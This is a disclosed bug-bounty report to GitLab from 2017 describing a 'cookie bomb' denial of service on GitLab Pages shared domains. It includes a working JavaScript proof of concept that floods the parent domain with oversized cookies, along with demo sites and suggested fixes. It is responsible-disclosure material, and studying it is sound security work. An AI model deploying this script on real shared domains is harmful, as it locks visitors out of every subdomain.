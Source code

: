 # Cookie bomb

## Report Details
- **Report ID**: 221041
- **URL**: https://hackerone.com/reports/221041
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-04-14T18:21:19.323Z
- **Disclosed**: 2018-02-16T22:25:29.045Z

## Reporter
- **Username**: moritz30
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
It is possible to create a that called cookie bomb in Gitlab Pages. This is especially a problem if the site creating the cookie bomb uses a shared pages domain. In that case no (sub)domain of that domain would be accessible for that user anymore until they clear their cookies. That does not only include GitLab (Pages) (sub)domains. The code of my sample page is

`<html>
<head>
</head>
<body>
<script>
var base_domain = document.domain.substr(document.domain.indexOf('.'));
var pollution = Array(4000).join('a');
for(var i=1;i<99;i++){
    document.cookie='bomb'+i+'='+pollution+';Domain='+base_domain;
}
</script>
<h1>Cookie Bomb executed! To remove it clear your cookies.</h1>
</body>
</html>`

The cookie bomb works by using JavaScript to set cookies that are way too big making the server decline any request send with them for having a too long request header.

It should also work on Gitlab.com.

More information about cookie bombs can be found at http://homakov.blogspot.de/2014/01/cookie-bomb-or-lets-break-internet.html .

A solution would be to inject JS into every page served using Gitlab pages that uses the cookies.change event and checks if there are a lot of cookies being set and then removing them. An other solution would be to check the HTML of Gitlab pages before deploying them.

Test sites:
Just a demo page that does nothing special (to see that it works before but not after executing the cookie bomb): http://test1.thedragonteam.info
A page that executes a cookie bomb: http://test2.thedragonteam.info
Both are served using Gitlab pages.

## Attachments
No attachments
